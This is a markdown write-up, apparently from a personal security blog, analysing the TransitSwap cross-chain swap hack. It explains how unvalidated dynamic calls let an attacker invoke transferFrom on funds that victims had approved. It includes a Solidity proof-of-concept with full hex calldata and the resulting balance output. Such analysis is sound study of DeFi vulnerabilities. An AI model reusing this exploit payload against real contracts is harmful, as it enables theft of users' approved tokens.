


# TransitSwap


## What's TransitSwap?
Transit Finance is a cross-chain swap platform that allows users to complete decentralized transactions in real time, instantly swapping assets across multiple networks. It integrates DEXs and aggregates transactions from various liquidity sources.

## Amount stolen
**$21M USD**


## Vulnerability
Incorrect owner address validation


## Analysis

The attacker exploits a contract vulnerability by using dynamic `call`'s to other contracts.
The contracts being called lack proper verification for the accessed contract, called function, and related parameters.

In Ethereum, using the call function allows you to send a message to another contract.
This message can include data that specifies which function of the target contract you want to call and with what arguments.

in our case `0x006de4df00....` and additional data will call the `transferFrom` with the given parameters such as victim address, destination wallet, and amount.


### Exploit code

```solidity
        emit log_named_decimal_uint(
            "[Start] Attacker USDT balance before exploit", BUSDT_TOKEN.balanceOf(address(this)), 18
        );

        TRANSIT_SWAP.call(
            hex"006de4df0000000000000000000000000000000000000000000000000000000000000001000000000000000000000000000000000000000000000000000000000000006000000000000000000000000000000000000000000000000000000000000001c000000000000000000000000000000000000000000000000000000000000000000000000000000000000000002170ed0880ac9a755fd29b2688956bd959f933f8000000000000000000000000a1137fe0cc191c11859c1d6fb81ae343d70cc17100000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000002707f79951b87b5400000000000000000000000000000000000000000000000000000000000000040000000000000000000000000000000000000000000000000000000000000001000000000000000000000000000000000000000000000000000000000000012000000000000000000000000000000000000000000000000000000000000000380000000000000000000000000000000000000000000000000000000000000007616e64726f69640000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000001c0000000000000000000000000ed1afc8c4604958c2f38a3408fa63b32e737c4280000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000a000000000000000000000000000000000000000000000000000000000000000e00000000000000000000000000000000000000000000000000000000000000007616e64726f69640000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000a40a5ea46600000000000000000000000055d398326f99059ff775485246999027b31979550000000000000000000000001aae0303f795b6fcb185ea9526aa0549963319fc0000000000000000000000007FA9385bE102ac3EAc297483Dd6233D62b3e149600000000000000000000000000000000000000000000015638842fa55808c0af00000000000000000000000000000000000000000000000000000000000077c800000000000000000000000000000000000000000000000000000000"
        );

        emit log_named_decimal_uint(
            "[End] Attacker USDT balance after exploit", BUSDT_TOKEN.balanceOf(address(this)), 18
        );
```


```
  [Start] Attacker USDT balance before exploit: 0.000000000000000000
  [End] Attacker USDT balance after exploit: 6312.858905558909501615
```
Our victim User has approved all Wrapped BNB to contract Claimtokens
the attacker studied past transactions to see he could use another person's account that has approved the funds


# proof of concept (PoC) 




The claimTokens function in contract 0xed1a calls the transferFrom function in the WBNB contract.
As a result, the attacker transfers WBNB tokens from user accounts (e.g., 0xcfbc) to the attacker's address (0x75f2).




# Summary

The attacker exploits a vulnerability in the contract by leveraging approval granted from the victim's account. By manipulating the input data, the attacker initiates a call to the transferFrom function, resulting in the transfer of all WBNB tokens from the victim's account, to the attacker's account.


**Code provided by:** [DeFiHackLabs](https://github.com/SunWeb3Sec/DeFiHackLabs/blob/main/src/test/transitSwap_exp.sol)

[**< Back**](https://patronasxdxd.github.io/CTFS/)
